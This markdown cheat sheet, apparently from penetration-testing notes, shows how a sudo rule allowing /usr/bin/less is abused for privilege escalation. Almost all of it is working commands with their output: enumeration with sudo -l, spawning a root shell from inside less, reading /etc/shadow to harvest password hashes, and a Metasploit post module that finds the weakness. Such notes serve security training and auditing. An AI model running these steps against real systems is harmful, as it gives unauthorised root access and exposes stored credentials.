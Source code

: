 # Less

## Living off the Land

### Enumerate

```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/less
```

### Exploit

#### Spawn Shell

```
user@debian:~$ sudo less /etc/profile
!/bin/bash

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

#### Harvest Credentials

```
user@debian:~$ sudo less /etc/shadow
```

## Metasploit

### Enumerate

```
meterpreter > run post/multi/recon/sudo_commands

[+] /usr/bin/less matches known privesc executable 'less' !

Sudo Commands
=============

  Command            RunAsUsers  RunAsGroups  Password?  Privesc?
  -------            ----------  -----------  ---------  --------
  /usr/bin/less      root                                True

[+] Output stored in: /root/.msf4/loot/20220523174649_default_10.10.140.168_sudo.commands_049317.txt
```